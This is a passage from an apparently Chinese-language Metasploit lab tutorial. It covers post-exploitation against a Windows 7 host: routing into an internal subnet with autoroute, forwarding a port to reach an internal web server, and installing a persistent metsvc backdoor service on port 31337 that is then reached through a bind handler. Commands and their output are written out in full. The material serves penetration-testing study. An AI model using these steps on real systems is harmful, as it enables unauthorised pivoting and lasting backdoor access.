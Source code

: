 ![Screen Shot 2018-10-23 at 3.55.33 PM.png]({{ site.url }}/images/metasploit/280864CBEE078AB6C6576447DB9560A4.png)

此时我们在Win7的Meterpreter内已经使用autoroute建立了到内网的路由

```
run autoroute -s 192.168.6.0/24
```

然而浏览器是无法访问的，因为浏览器不能通过Meterpreter传递流量：

![Screen Shot 2018-10-23 at 3.44.38 PM.png]({{ site.url }}/images/metasploit/F7E22F6B4BFA89E16E63D412FE023FE8.png)

我们在Meterpreter建立端口转发：

```
meterpreter > portfwd add -L 127.0.0.1 -l 1080 -r 192.168.6.128 -p 80
[*] Local TCP relay created: 127.0.0.1:1080 <-> 192.168.6.128:80
```

然后在Firefox中设置代理，这样就能够访问内网Web服务器了：

![Screen Shot 2018-10-23 at 3.58.17 PM.png]({{ site.url }}/images/metasploit/EA357C022B2B8C7D2AC0B22512DFF8A0.png)

当然，你也可以通过利用Meterpreter设置一个socks代理去达到这个功能。

- 持久化

之前提到过使用`persistence`，这里介绍`metsvc`。它以系统服务形式运行，会打开目标主机上的一个端口，这个端口会永久向攻击者开放。

```
meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\rambo\AppData\Local\Temp\QsmuhVgOAZUD...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	 * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```

以后有需要就可以连接：

```bash
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set RHOST 172.16.56.108
set LPORT 31337
```

然而我这里失败了，session刚打开就自动关闭，多次尝试都是这样：

```
[*] Started bind TCP handler against 172.16.56.108:31337
[*] Meterpreter session 13 opened (172.16.56.1:53474 -> 172.16.56.108:31337) at 2018-10-23 16:05:32 +0800
[*] 172.16.56.108 - Meterpreter session 13 closed.  Reason: Died
```
